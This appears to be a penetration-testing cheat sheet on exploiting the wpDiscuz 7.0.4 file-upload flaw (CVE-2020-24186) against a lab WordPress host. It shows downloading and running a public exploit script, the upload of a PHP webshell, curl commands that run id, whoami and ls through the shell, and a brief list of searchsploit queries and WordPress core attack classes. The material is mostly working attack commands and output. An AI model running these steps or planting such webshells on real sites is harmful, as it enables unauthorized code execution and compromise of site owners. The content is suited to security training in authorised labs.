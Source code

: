 ### wpDiscuz Plugin RCE

#### Vulnerability Overview
```bash
# wpDiscuz 7.0.4 - File Upload Bypass (CVE-2020-24186)
# Allows unauthenticated PHP file upload
# Bypasses MIME type validation
# Results in remote code execution
```

#### Automated Exploitation
```bash
# Download exploit script
wget https://github.com/hevox/CVE-2020-24186/raw/master/wp_discuz.py

# Execute exploit
python3 wp_discuz.py -u http://blog.inlanefreight.local -p "/?p=1"

# Example output:
[+] Generating random name for Webshell...
[!] Generated webshell name: uthsdkbywoxeebg
[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path: wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php
```

#### Manual Web Shell Access
```bash
# Access uploaded web shell
curl -s "http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id"

# Output includes GIF header bypass:
GIF689a;
uid=33(www-data) gid=33(www-data) groups=33(www-data)

# Execute additional commands
curl -s "http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=whoami"
curl -s "http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=ls+-la"
```

---

## Advanced Attack Techniques

### WordPress Core Exploits

#### Version-Specific Attacks
```bash
# Check WordPress version vulnerabilities
searchsploit wordpress 5.8
searchsploit wordpress core

# Common WordPress core vulnerabilities:
# - REST API exposure
# - Authenticated arbitrary file deletion
# - Password reset vulnerabilities
# - XML-RPC amplification attacks
```
